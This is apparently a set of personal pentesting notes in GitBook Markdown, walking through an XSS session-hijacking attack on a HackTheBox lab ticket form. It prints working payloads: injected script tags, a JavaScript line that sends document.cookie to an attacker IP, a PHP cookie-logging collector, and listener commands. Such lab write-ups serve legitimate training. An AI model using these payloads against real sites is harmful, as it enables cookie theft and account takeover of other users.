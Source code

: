 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS

{% hint style="success" %}
**Cross-Site Scripting (XSS)** (aka _JavaScript Injection_) occurs when an attacker injects malicious scripts into web pages viewed by other users which can result in data theft, session hijacking, or defacement of the website.
{% endhint %}

### Session Hijacking

> _The example below is based on HTB's_ [_Web Enumeration & Exploitation_](https://academy.hackthebox.com/module/163/section/1544) _module._

We have found a **ticket form** on `support.local.htb` (Figure 1).

<div align="center">

<figure><img src="../../../.gitbook/assets/xss_ticket_form.png" alt="" width="375"><figcaption><p>Figure 1: A form that can we can raise ticket to the support department.</p></figcaption></figure>

</div>

We can first **test** if it is vulnerable to XSS (Figure 2).

{% tabs %}
{% tab title="1. Payload" %}
```javascript
 "><script src=http://10.10.15.131:1337/test</script>
```
{% endtab %}

{% tab title="2. Listener" %}
```bash
nc -lvnp 1337
```
{% endtab %}
{% endtabs %}

<div align="center">

<figure><img src="../../../.gitbook/assets/xss_test.png" alt="" width="554"><figcaption><p>Figure 2: Testing XSS.</p></figcaption></figure>

</div>

Next, we will **steal the cookie** of the person who will process our ticket (Figure 3).

1. Create a script (`index.php`) that will expand the stolen cookie.
2. Create another script (`script.js`) that will steal the user's cookie, request `index.php` and pass it as a value to `index.php`.&#x20;
3. Pass a payload that will request `script.js`.

{% tabs %}
{% tab title="index.php" %}
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```
{% endtab %}

{% tab title="script.js" %}
```javascript
new Image().src='http://10.10.15.131/index.php?c='+document.cookie
```
{% endtab %}

{% tab title="Python HTTP Server" %}
```bash
python3 -m http.server 80
```
{% endtab %}

{% tab title="Payload" %}
```javascript
"><script src=http://10.10.15.131/script.js></script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/xss_cookie.png" alt=""><figcaption><p>Figure 3: Snatching the support staff's cookie.</p></figcaption></figure>

Adding a new session cookie (Figure 4) and refreshing the page, gives us elevated access (Figure 5).

<div align="center">

<figure><img src="../../../.gitbook/assets/xss_creating_cookie.png" alt="" width="453"><figcaption><p>Figure 4: Creating a new session cookie.</p></figcaption></figure>

</div>

<div align="center">

<figure><img src="../../../.gitbook/assets/xss_dashboard_access.png" alt="" width="563"><figcaption><p>Figure 5: Refreshing the page gives us dashboard access.</p></figcaption></figure>

</div>
